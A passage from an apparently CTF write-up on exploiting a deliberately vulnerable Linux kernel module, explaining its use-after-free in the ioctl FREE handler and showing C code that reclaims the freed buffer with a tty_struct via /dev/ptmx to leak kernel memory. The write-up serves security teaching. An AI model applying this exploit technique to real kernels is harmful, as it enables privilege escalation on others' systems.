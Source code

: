 ```c {script_name="vuln.c"}
        printk(KERN_ERR "Failed to register device\n");
        return ret;
    }
    return 0;
}

void vuln_exit(void) {
    misc_deregister(&vuln_dev);
}

MODULE_LICENSE("GPL");
MODULE_AUTHOR("UIUCTF Inc.");
MODULE_DESCRIPTION("Vulnerable Kernel Module");  
module_init(vuln_init);
module_exit(vuln_exit);
```

It's pretty much as follows:
1. Create a device at `/dev/vuln`
1. Listen on `ioctl`
    1. `ALLOC` instruction received? Allocate buffer with our size if not already allocated
    1. `FREE` instruction received? Free buffer if allocated **but forgets to mark the buffer as free** (UAF)
    1. `READ` instruction received? Read from buffer however many bytes we want to read, as long as it is LT or equal to the original size we allocated
    1. `WRITE` instruction received? Write to buffer however many bytes we want, again, as long as it is LT or equal to original allocated size

You probably saw it already, but yeah, the issue is the UAF vulnerability. This allows us to perform heap exploitation in the kernel, in a sense.

## tty_struct

Using [this post here](https://santaclz.github.io/2024/01/20/Linux-Kernel-Exploitation-Heap-techniques.html) as a reference, when it comes to the linux heap, especially on a non-modern version like this, we can essentially use our `UAF` to interface with what's known as a [tty_struct](https://elixir.bootlin.com/linux/v6.6.16/source/include/linux/tty.h#L193).

The `tty_struct` is essentially just a struct that gets allocated and placed onto the heap whenever we open a file descriptor to a tty instance, in our case using `/dev/ptmx` as per the article. We can make sure to allocate and free our buffer, then open the descriptor so our buffer points to a memory region occupied by a `tty_struct`.

We use a size of `0x400` (1024 bytes) as the `BUFFER_SIZE` to ensure the `tty_struct` properly allocates on the same address as our freed buffer.

```c
int main() {
	//open the vulnerable driver
	fd = open("/dev/vuln", O_RDWR);

	//allocate the buffer
	size_t buffer_size = BUFFER_SIZE;
	perform_ioctl(ALLOC, (size_t*)&buffer_size);

	//free it to get UAF
	perform_ioctl(FREE, NULL);

	//open ptmx
	tty = open("/dev/ptmx", O_RDONLY);

	//read
	perform_ioctl(USE_READ, (unsigned char*)&buf);
	pretty_print(buf, BUFFER_SIZE);
}
```